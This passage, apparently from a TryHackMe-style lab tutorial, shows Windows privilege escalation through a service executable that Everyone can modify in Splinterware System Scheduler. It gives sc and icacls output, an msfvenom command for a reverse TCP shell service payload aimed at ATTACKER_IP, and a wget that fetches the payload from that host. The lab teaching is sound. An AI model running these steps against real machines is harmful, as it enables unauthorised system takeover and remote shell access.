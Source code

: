 To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using sc:

```
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

        
```

We can then pull the payload from Powershell with the following command:

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```
